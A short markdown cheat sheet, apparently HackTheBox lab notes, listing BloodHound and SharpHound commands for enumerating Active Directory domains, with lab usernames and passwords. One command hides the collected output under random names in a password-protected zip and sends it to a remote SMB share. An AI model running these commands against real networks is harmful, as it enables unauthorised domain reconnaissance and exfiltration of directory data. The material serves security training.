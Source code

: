 
[[Bloo]]

# BloodHound

| Command                                                                                                                            | Description                                      |
| ---------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------ |
| `.\SharpHound.exe -c all --zipfilename inlanefreight_bloodhound`                                                                   | Run the SharpHound C# ingestor                   |
| `.\SharpHound.exe --memcache --outputdirectory \\10.10.14.33\share\ --zippassword HackTheBox --outputprefix HTB --randomfilenames` | Randomize and hide SharpHound Output             |
| `Invoke-BloodHound -CollectionMethod all -ZipFileName ilfreight_bloodhound`                                                        | Run the SharpHound PowerShell ingestor           |
| `bloodhound-python -dc <DC> -gc <GC> -d <DOMAIN -c All -u <user>`                                                                  | Run bloodhound-python                            |
| `bloodhound-python -u P.Rosa -p 'Rosaisbest123' -d vintage.htb -c All -dc dc01.vintage.htb`                                        |                                                  |
| `bloodhound-python -d inlanefreight.htb -c DCOnly -u htb-student -p HTBRocks! -ns 10.129.204.207 -k`                               |                                                  |
| `bloodhound-python -d inlanefreight.htb -c DCOnly -u htb-student -p HTBRocks! -ns 10.129.204.207 --kerberos`                       | Using BloodHound.py with Kerberos authentication |
